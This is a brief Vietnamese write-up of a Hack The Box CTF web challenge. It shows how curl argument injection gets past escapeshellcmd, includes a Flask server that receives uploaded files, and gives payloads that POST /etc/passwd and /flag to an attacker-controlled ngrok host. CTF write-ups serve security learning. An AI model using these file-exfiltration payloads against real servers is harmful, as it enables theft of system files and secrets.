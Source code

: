 ![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/1.png)

bài này cũng không khó
ta thấy rằng web này có chức năng dùng lệnh __curl trong linux__ nhưng ta không thể thực hiện command injection vì hàm __escapeshellcmd($host)__ đã chặn.
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/3.png)
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/4.png)
<br />
nhưng  lệnh __curl__ trong linux có thể upload file đến một máy web khác bằng lệnh như sau __curl -X POST -F file=@@/etc/passwd url_attacker__ 
<br />
trong tệp __Dockerfile__ ta có thể thấy đường dẫn __/flag__
<br />
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/Untitled.png)

ta chạy web để bắt file được gửi về
```from flask import Flask, request

app = Flask(__name__)

@app.route('/upload', methods = [ 'POST'])
def upload_file():
    if request.method == 'POST':
      f = request.files['file']
      f.save(f.filename)
      return 'file uploaded successfully'

if __name__ == '__main__':
   app.run(host="0.0.0.0",port=8888)
   ``` 
   
sau đó nhập payload này:  ` http://2360-2001-ee0-4f0f-d3b0-910-70-84f3-2af0.ngrok.io/upload -X POST -F file=@/flag`
như vậy ta sẽ nhận tệp flag gửi về __HTB{curl_pwn4g3_3n_r0ut3!}__
